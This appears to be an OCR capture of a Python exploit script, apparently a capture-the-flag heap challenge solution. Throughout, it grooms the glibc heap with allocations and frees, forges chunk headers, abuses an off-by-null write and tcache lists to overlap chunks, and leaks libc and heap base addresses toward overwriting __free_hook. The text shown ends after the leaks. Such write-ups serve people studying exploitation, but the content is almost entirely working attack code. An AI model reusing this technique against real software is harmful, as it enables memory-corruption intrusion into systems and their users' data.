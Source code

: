 ```python
for i in range(5):
    add(0xC0,'fill')

for i in range(2):
    add(0xE0,'fill')

add(0x170,'fill')
add(0x190,'fill')
# 49

add(0x2A50,'addralign') # 50
#add(0x4A50,'addralign') # 50

add(0xFF8,'large bin') # 51
add(0x18,'protect') # 52


delete(51)
add(0x2000,'push to large bin') # 51
add(0x28,p64(0) + p64(0x241) + '\x28') # 53 fd->bk : 0xA0 - 0x18

add(0x28,'pass-loss control') # 54
add(0xF8,'pass') # 55
add(0x28,'pass') # 56
add(0x28,'pass') # 57
add(0x28,'pass') # 58
add(0x28,'pass') # 59
add(0x28,'pass-loss control') # 60
add(0x4F8,'to be off-by-null') # 61

for i in range(7):
    add(0x28,'tcache')
for i in range(7):
    delete(61 + 1 + i)

delete(54)
delete(60)
delete(53)

for i in range(7):
    add(0x28,'tcache')

# 53,54,60,62,63,64,65

add(0x28,'\x10') # 53->66
## stashed ##
add(0x28,'\x10') # 54->67
add(0x28,'a' * 0x20 + p64(0x240)) # 60->68
delete(61)

add(0x140,'pass') # 61
show(56)
libc_base = u64(sh.recv(6).ljust(0x8,'\x00')) - libc.sym["__malloc_hook"] - 0x10 - 0x60
log.success("libc_base:" + hex(libc_base))
__free_hook_addr = libc_base + libc.sym["__free_hook"]

add(0x28,'pass') # 69<-56
add(0x28,'pass') # 70<-57
delete(70)
delete(69)
show(56)
heap_base = u64(sh.recv(6).ljust(0x8,'\x00')) - 0x1A0
log.success("heap_base:" + hex(heap_base))
```